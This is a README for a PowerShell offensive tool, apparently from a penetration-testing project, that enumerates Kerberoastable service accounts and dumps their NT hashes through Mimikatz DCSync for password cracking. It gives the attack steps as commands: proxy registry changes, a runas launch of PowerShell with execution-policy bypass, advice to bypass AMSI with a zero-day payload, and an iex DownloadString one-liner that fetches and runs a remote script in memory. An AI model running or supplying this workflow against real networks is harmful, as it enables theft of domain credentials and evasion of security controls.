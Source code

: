 # Invoke-SPNDCSync

PowerShell script to enumerate Kerberoastable SPN user account and retrieve their NT-Hash via Mimikatz for password cracking.

This is an alternative to cracking Kerberos-Hashes, since NT-Hashes can be cracked 135 times faster.

## General Preparation

1. Connect to the internal AD network via VPN or directly, if on-site.
2. Configure your operating system's proxy to use the client's proxy. Internet is required to download Invoke-Mimikatz and Invoke-DCSync PS scripts. Alternatively, configure a known proxy via PS:

````
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings" -Name ProxyServer -Value "127.0.0.1:8080"
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings" -Name ProxyEnable -Value 1
````
3. Open a new PowerShell terminal as another user; use a privileged domain user account with DCSync rights

````
runas.exe /netonly /noprofile /user:mydomain.prod.dom\dcsyncUser "powershell.exe -ep bypass"
````

4. Verify authenticated AD access within your PowerShell terminal window

## SPN DCSync Preparation

It is recommended to bypass AMSI for the current PowerShell session. Use a 0-Day payload!

# SPN DCSync Execution

Download ``Invoke-SPNDCSync.ps1`` into memory, which executes the DCSync process.

As a result, we will obtain four files located under C:\temp\ directory:

````
iex(new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/pentestfactory/Invoke-SPNDCSync/main/Invoke-SPNDCSync.ps1')
````
